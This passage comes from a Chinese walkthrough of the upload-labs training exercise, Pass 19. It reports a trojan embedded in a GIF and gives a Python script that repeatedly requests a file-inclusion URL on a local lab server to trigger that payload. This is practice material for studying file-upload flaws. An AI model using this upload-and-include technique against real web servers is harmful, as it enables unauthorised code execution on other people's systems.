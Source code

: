 

可看到图片<code>NineteenScript.gif</code>成功注入木马

![Pass19_04](./img/Pass19_04.PNG)



编写<code>python</code>脚本<code>AttackScript.py</code>如下:

~~~ python
import requests
from threading import Thread

#url = "http://192.168.31.126:80/upload-labs/upload/NineteenFirstMethod.php.html"
url = "http://192.168.31.128:80/upload-labs/include.php?file=upload/NineteenScript.gif"

def request():
    global StatusCode
    global Text
    html = requests.get(url)
    StatusCode = html.status_code
    Text = html.text
    
while True:
    t = Thread(target=request())
    t.start()
    if StatusCode == 200:
        print(Text)
        print("OK")
        break
    else:
        print(StatusCode)
~~~
